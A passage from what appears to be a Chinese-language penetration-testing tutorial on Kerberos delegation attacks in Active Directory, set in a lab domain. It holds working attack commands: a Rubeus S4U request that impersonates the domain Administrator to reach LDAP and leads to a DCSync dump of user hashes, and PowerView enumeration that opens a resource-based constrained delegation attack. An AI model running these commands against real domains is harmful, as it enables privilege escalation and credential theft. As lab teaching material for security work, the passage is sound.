 ![](/assets/posts/2022-03-12-domain-delegation-attack/image-20220331220531127.png)

（3)然后执行以下命令，使用 S4U2Self 扩展代表域管理员 Administrator 请求针对域控 LDAP 服务的票证，并将得到的票证传递到内存中，执行结果如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:LDAP/DC01.pentest.com /dc:DC01.pentest.com /ptt /ticket:<Base64EncodedTicket>
# Rubeus.exe s4u /impersonateuser:PENTEST\Administrator /altservice:LDAP/DC01.pentest.com /dc:DC01.pentest.com /ptt /ticket:<Base64EncodedTicket>
```

![](/assets/posts/2022-03-12-domain-delegation-attack/fBrHLyAg4WKncMx.png)

![](/assets/posts/2022-03-12-domain-delegation-attack/image-20220331220707910.png)

（4）再次尝试 DCSync 操作，此时可以成功导出域内用户哈希，如下图所示。

![](/assets/posts/2022-03-12-domain-delegation-attack/image-20220331190001021.png)
## Resource-Based Constrained Delegation

基于资源的约束委派（Resource-Based Constrained Delegation，RBCD）是在 Windows Server 2012 中新引入的功能，与传统的约束委派相比，它不再需要拥有 SeEnableDelegationPrivilege 特权的域管理员去设置相关属性，并且将设置委派的权限交换给了服务资源自身，即服务自己可以决定谁可以对我进行委派。

可以将基于资源的约束性委派理解为传统的约束性委派的反向过程。以 Service 1 和 Service 2 两个服务为例，传统的约束性委派需要在 Service 1 上设置 msDS-AllowedToDelegateTo 属性，以指定对 Service 2 上的哪一个服务进行委派。二在基于资源的约束性委派中，需要在 Service 2 上将 msDS-AllowedToActOnBehalfOfOtherIdentity 属性值设为 Service 1 的 SID，以允许 Service 1 对 Service 2 上的服务进行委派。

此外，在传统的约束性委派中，通过 S4u2self 申请到的 ST 票证一定是可转发的，如果不可转发，则后续的 S4U2Proxy 阶段将失败。但是在基于资源的约束性委派中，不可转发的 ST 票证仍然可以通过 S4U2Proxy 阶段对其他服务进行委派认证。因此，基于资源的约束性委派与传统的约束性委派在利用方法上大同小异。

### RBCD Attack

基于资源的约束性委派的关键在于 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的设置，虽然基于资源的约束性委派的配置并不需要管理员权限，但是要向修改服务账户或机器账户的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性，用户必须拥有对其完全控制（GenericAll），或拥有 GenericWrite、WriteProperty、WriteDacl 等权限。

下面我对基于资源的约束性委派的一般攻击过程进行演示，测试环境如下，并假设已经获取到了 Marcus 用户的权限，并以 Marcus 用户登录了 WIN10-CLIENT1。

- 域：pentest.com
- 域控制器
  - 主机名：DC01
  - IP 地址：172.26.10.11
- 域成员主机
  - 主机名：WIN10-CLIENT1
  - IP 地址：172.26.10.21
- 域管理员用户：Administrator
- 普通用户：Marcus

（1）使用 [PowerView.ps1](https://github.com/shigophilo/tools/blob/master/PowerView.ps1) 可以枚举指定用户 Marcus 对机器账户 DC01 的 ACE，发现该用户对 DC01 完全控制，如下图所示。

```powershell
# 导入模块
Import-Module .\PowerView.ps1
# 获取 Marcus 用户的 SID
Get-DomainUser -Identity Marcus -Properties objectsid
# 枚举 Marcus 用户对 DC01 的 ACE
Get-DomainObjectAcl -Identity DC01 | ?{$_.SecurityIdentifier -match "S-1-5-21-1536491439-3234161155-253608391-1106"}
```
